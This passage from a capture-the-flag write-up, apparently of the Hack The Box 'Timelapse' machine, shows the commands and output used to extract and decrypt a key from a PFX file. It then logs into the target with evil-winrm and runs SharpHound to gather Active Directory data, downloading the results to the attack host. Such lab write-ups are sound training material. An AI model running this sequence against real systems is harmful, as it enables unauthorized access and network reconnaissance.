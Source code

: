 Now, we can try again to extract the certificate and decrypt the key. As the above [link ](https://www.ibm.com/docs/en/arl/9.7?topic=certification-extracting-certificate-keys-from-pfx-file)mentions, the PEM pass phrase is set by us and later used to decrypt the key. It can be anything as long as it is ≥ than 4 characters.

{% code overflow="wrap" %}
```bash
# extracting the key and setting a PEM pass phrase
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
# decrypting the key using the PEM pass phrase we set above
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
Enter pass phrase for legacyy_dev_auth.key-enc:
writing RSA key
# extracting the certificate
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:
# checking the everything is there
ls legacyy_dev_auth.*
legacyy_dev_auth.crt  legacyy_dev_auth.key  legacyy_dev_auth.key-enc  legacyy_dev_auth.pfx
```
{% endcode %}

Now, we can use the certificate and the key files to access the target host via WinRM and grab the user flag 🚩(Figure 7).

```bash
evil-winrm -i 10.10.11.152 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```

<figure><img src="../../../.gitbook/assets/timelapse_winrm.png" alt=""><figcaption><p>Figure 7: Logging into the box via WinRM using a key and certificate pair.</p></figcaption></figure>

## EoP[^8]

### Sniffing Paths

The first thing we always do when we get our foothold is to collect domain information and analyze it using [BloodHound](../../../tools/tools/active-directory/bloodhound.md) (Figure 8).

```powershell
# upload binary to the target host
upload SharpHound.exe
# collect domain information
.\SharpHound.exe -c all
# list directory's content
dir
# download the generated zip file to the attack host
download 20240415192438_BloodHound.zip
```


[^1]: Elevation of Privileges
[^2]: Domain Controller
[^3]: Windows Remote Management
[^4]: Server Message Block
[^5]: Fully Qualified Domain Name
[^6]: Local Administrator Password Solution
[^7]: Personal Information Exchange
[^8]: Elevation of Privileges